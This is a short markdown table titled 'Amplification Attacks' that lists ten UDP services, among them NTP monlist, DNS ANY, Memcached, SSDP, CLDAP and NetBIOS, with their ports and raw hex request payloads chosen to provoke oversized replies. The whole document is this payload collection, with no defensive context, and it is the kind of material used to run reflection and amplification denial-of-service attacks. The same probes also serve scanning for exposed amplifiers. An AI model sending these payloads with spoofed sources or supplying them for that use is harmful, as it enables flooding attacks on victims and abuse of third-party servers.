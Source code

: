 # Amplification Attacks


|Protocol| Description |UDP Port | Request Payload HEX| 
|---| --- | ---| --- | 
|**NTP**| monlist command | 123 |`1700032a0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000` | 
|**DNS**|  ANY google.com query| 53 |`17ea0100000100000000000106676f6f676c6503636f6d0000ff00010000290200000000000000` | 
|**Memcached**|  stat items |11211 | `5a4d0000000100007374617473206974656d730d0a` | 
|**SNMP**|  system description field using community string public | 161 |`302902010004067075626c6963a01c0204565adc5d020100020100300e300c06082b060102010101000500` |
|**CharGen**| trigger response containing random ASCII chars| 19 |`0a` |
|**RIPv1** | malformed request | 520 |`010100000000000000000000000000000000000000001000`|
|**QOTD**| trigger a quote | 17 | `0a`|
|**SSDP**| trigger ssdp:all responses from UPnP SSDP service | 1900 |`4d2d534541524348202a20485454502f312e310d0a486f73743a3233392e3235352e3235352e3235303a313930300d0a53543a737364703a616c6c0d0a4d616e3a22737364703a646973636f766572220d0a4d583a310d0a`|
|**CLDAP**| searchrequest CLDAP | 389 | `30840000002d02010163840000002404000a01000a0100020100020100010100870b6f626a656374636c617373308400000000000a`|
|**NETBIOS**| NBSTAT query to get status | 137 | `e5d80000000100000000000020434b4141414141414141414141414141414141414141414141414141414141410000210001`|
